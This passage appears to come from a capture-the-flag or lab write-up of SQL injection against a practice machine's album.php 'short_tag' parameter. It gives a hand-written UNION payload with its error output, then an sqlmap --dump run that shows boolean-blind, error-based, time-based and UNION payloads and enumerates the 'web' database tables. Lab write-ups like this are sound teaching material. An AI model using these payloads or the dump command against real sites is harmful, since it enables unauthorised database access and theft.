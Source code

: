 A basic payload like cute-8758' UNION ALL SELECT CONCAT(0x717a706b71,0x4268707275514441697862415442454a616f7174786e596744676e70694e494a796867506e54554f,0x71627a6271)-- - resulted in Connection failed: SQLSTATE[42S22]: Column not found: 1054 Unknown column 'qzpkqBhpruQDAixbATBEJaoqtxnYgDgnpiNIJyhgPnTUOqbzbq' in 'WHERE'. This indicated that while a UNION query was possible, the number of columns was incorrect, and output trimming might be occurring.

We used sqlmap to enumerate the databases and tables, focusing on the web database given the context.
Bash


    sqlmap -u 'http://10.10.131.204/album.php?short_tag=fav' --dump
    # ... (sqlmap banner and legal disclaimer) ...

    [*] starting @ 18:23:26 /2025-06-03/

    [18:23:26] [INFO] resuming back-end DBMS 'mysql'
    [18:23:26] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: short_tag (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: short_tag=cute' AND 4564=4564 AND 'cTQN'='cTQN

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
Payload: short_tag=cute' AND (SELECT 6727 FROM(SELECT COUNT(*),CONCAT(0x717a706b71,(SELECT (ELT(6727=6727,1))),0x71627a6271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'cuBx'='cuBx
    
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: short_tag=cute' AND (SELECT 5008 FROM (SELECT(SLEEP(5)))eAbZ) AND 'iuCk'='iuCk

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
Payload: short_tag=-8758' UNION ALL SELECT CONCAT(0x717a706b71,0x4268707275514441697862415442454a616f7174786e596744676e70694e494a796867506e54554f,0x71627a6271)-- -
 
[18:23:26] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 8.4.4, Apache 2.4.62
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[18:23:26] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[18:23:26] [INFO] fetching current database
[18:23:26] [INFO] fetching tables for database: 'web'
[18:23:27] [INFO] retrieved: 'albums'
[18:23:27] [INFO] retrieved: 'images'
[18:23:27] [INFO] fetching columns for table 'images' in database 'web'
[18:23:28] [INFO] retrieved: 'path','text'
[18:23:28] [INFO] fetching entries for table 'images' in database 'web'
# ... (server trimmed output warnings) ...
[18:23:31] [INFO] retrieved: '/var/www/images/cat1.jpg'
# ... (other image paths) ...
Database: web
Table: images
[16 entries]
